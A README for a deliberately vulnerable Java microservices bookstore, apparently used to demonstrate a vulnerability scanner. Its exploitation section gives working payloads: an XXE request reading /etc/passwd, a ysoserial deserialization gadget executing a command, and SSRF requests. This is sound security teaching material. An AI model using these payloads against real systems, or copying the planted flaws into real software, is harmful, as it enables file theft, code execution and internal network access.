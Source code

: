 # java-sample-apps
This repo holds a few Java apps that use the microservices architecture (versus a monolythic application). There are 3 microservice apps that implement a "book store".

## The Microservices

### bookstore-frontend (8000)

The bookstore-frontend app is a jax-rs app serving as a front end for the book store, exposing these
endpoints for book management:
 - GET /health
 - POST /add (this endpoint has an XXE vulnerability)
 - POST /delete
 - GET /list
 - GET /debug

### bookstore-data-manager (8001)

The bookstore-data-manager app is a SpringBoot app which holds the book data, offering a few services:
 - GET /ping
 - POST /add
 - POST /update (this "internal only" endpoint has a deserialization vulnerability)
 - POST /delete
 - GET /list
 
### bookstore-devservice (aka debug) (8002) 
 
The bookstore-debug app is a Dropwizard app that offers info to the devs:
 - GET /application/ping
 - GET /application/info?env=qa (this endpoint has an SSRF vulnerability)

## Usage

The first step is to build all 3 of the microservices (aka sub applications).

To build using docker compose:
```
$ docker-compose build 
```

The next step is to start the microservices, which will run on ports 8000, 8001 and 8002, respectively.

To start normally:
```
$ docker-compose up -d 
```

If you don't want to use docker-compose, each service has a Dockerfile to make running 1 step. Consult each service's `README.md` to see the commands.

### Using the services

You're _supposed_ to do everything through the frontend service.

Get a health check on the entire bookstore service mesh:
```
$ curl http://localhost:8000/health
```

List all the books:
```
$ curl http://localhost:8000/list
```

Add a book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<book><title>The Giving Tree</title><pages>30</pages></book>'
```

Alternatively, you can add a book through the backend service directly, where it expects JSON:
```
$ curl -H "Content-Type: application/json" http://localhost:8001/add -d '{"pages":"30", "title":"The Giving Tree"}'
```

Get debug info on the service:
```
$ curl http://localhost:8000/debug
```

## Detecting the vulnerabilities
To detect the vulnerabilities, start the apps with Contrast enabled as described above.  Then use the services to exercise the code.  It should not be necessary to exploit the vulnerabilities, in order for Contrast to identify the vulnerabilities.

## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by adding a new malicious
book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which you can see by
checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not supposed to be used from
the outside, which is why it's not available through the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized Java object with `Book`
type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm ysoserial CommonsCollections5 '/usr/bin/touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@commonscollections5.ser" http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the running container. 

If you started with docker-compose, the container ID is something like java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```

Now, using that container ID, we shell into the container and confirm the exploit created the `/tmp/hacked` file:
```
$ docker exec -it java-microservice-sample-apps_bookstore-datamanager_1 ls -al /tmp/hacked
...
-rw-r--r-- 1 root root 0 <time> /tmp/hacked
```

### Server Side Request Forgery (SSRF)
The `bookstore-frontend` exposes a "info" service, only intended for developers. It is intended to be used to rertieve data about different developer environments, but it can be used to force the app to retrieve data from other URLs:
```
$ curl http://localhost:8002/application/info?env=google.com/?
```

Obviously in this case we ask the server to retrieve Google content, but it could as easily be pointed towards URLs typically only accessed within your perimeter.

```
$ curl http://localhost:8002/application/info?env=SECRET
```
